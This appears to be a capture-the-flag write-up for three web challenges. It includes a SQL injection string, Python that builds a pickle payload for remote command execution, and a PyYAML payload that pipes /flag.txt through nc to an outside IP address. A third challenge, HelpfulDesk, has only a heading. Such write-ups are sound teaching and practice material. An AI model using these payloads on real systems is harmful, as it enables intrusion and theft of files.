 ### MOVEable

The source for the app is provided, a flask app. It can help to run this locally: the site has a few problems. First it uses 'executescript' when performing its login check, which cannot return rows and so logging in convetionally is impossible. Second, the sites main functionality is downloading files however the code to send a downloaded file is incorrect for this flask version, so that functionality cannot work.

The trick to this one is two fold:

- the executescript used for logging in can take chained statements, which means you can pass something like `\;insert/**/into/**/activesessions/**/(session_id,username)/**/values/**/(\test\,\test\)/**/--/**/` (leveraging a flaw where `\` is replaced with `'`)
- with a valid session id, and the above chaining, you can add files into the files table then 'download' them via /download/filename/sessionid. As mentioned the download functionality doesnt work, however, it uses pickle loads to read file blob data first which means it is vulnerable to pickle deserialization attacks.

With this I used a script to create a pickle payload that would allow me to execute arbitary commands:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('import os;flash(os.popen(request.args.get("cmd")).read())')
        return exec, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

By creating a file with the result of this, browsing to the file with a cmd parameter would result in a redirect with the command output in a flash.

From this you can find the user (moveable) has sudo all rights, then find the flag in the /root directory.

### Y2J

A website where you can provide YAML and it will be serialized to JSON. A bit of testing reveals this is python, and there are a few exploits for PyYAML available though many are stymied by needing to be serializaed to JSON after exploitation, preventing file read (afaics). However, nc is available on the machine - I couldn't get a rev shell (didn't really try hard) but you can pipe commands to a remote server, e.g. `!!python/object/apply:os.system ["cat /flag.txt | nc 54.170.88.92 4444"]`

### HelpfulDesk
